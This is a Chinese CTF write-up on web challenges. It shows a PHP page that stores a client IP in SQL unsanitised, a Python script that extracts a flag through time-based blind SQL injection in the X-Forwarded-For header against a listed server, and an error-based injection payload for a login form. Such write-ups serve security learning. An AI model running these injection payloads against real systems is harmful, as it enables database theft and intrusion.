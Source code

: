 ```bash
return $ip_arr[0];

}

$host="localhost";
$user="";
$pass="";
$db="";

$connect = mysql_connect($host, $user, $pass) or die("Unable to connect");

mysql_select_db($db) or die("Unable to select database");

$ip = getIp();
echo 'your ip is :'.$ip;
$sql="insert into client_ip (ip) values ('$ip')";
mysql_query($sql);
```
[$_SERVER](http://php.net/manual/zh/reserved.variables.server.php)</br>
[insert into 攻击的原理](http://blog.csdn.net/hwz2311245/article/details/53941523)</br>
[requests库的详解](https://zhuanlan.zhihu.com/p/33097764)</br>
py解得
```bash
import requests
from requests import ReadTimeout
import string
url="http://120.24.86.145:8002/web15/"
strings=string.ascii_lowercase+string.ascii_uppercase+string.digits
flag=""
for i in range(1,35):
    for str0 in strings:
        payload="11'+(select case when (substring((select flag from flag ) from {0} for 1 )='{1}') then sleep(4) else 1 end ) and '1'='1".format(str(i),str0)
        header={"x-forwarded-for": payload}
        try:
            response=requests.get(url,headers=header,timeout=3)
        except ReadTimeout :
            flag+=str0
            print(flag)
            break
print(flag)

```

# 这是一个神奇的登入框
[SQL注入-基于报错注入](https://baijiahao.baidu.com/s?id=1577401223226080294&wfr=spider&for=pc)</br>
这题的字符串是双引号括起来的，输入”就会报错，然后就是报错注入了，常用的报错语句上面的链接有。</br>
直接给出payload
```bash
admin_name=1"and multilinestring((select * from(select * from(select group_concat(flag1) from flag1)a)b)) and "1 &admin_passwd=Qianye&submit=GO+GO+GO
```
# 多次
[sql盲注](https://www.jianshu.com/p/65f05e7cc957)
这道题不懂，感觉是盲注，但是又做不出来
# PHP_encrypt_1(ISCCCTF)
下载压缩包，后得源码,这道题有加密密文的，可是下载的文件里竟然没有，出题者应该忘记写上了。</br>
